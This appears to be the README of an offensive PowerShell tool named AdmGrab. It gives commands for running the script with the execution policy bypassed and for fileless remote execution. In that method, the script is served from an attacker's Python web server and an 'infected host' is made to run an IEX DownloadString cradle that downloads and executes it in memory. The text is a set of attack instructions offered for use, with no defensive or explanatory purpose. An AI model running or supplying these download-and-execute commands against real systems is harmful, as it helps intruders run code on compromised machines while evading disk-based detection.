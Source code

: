 # AdmGrab

## Local Execution
For execution from file, use
`powershell.exe -ExecutionPolicy ByPass -File AdmGrab.ps1`

## Remote Execution
To enforce execution in memory start a python webserver in the folder the AdmGrab.ps1 is located
`pyton -m SimpleHTTPServer 8080`

Suppose you are on IP 10.0.0.1, now force the infected host to run the following command
`powershell.exe "IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.1:8080/AdmGrab.ps1')"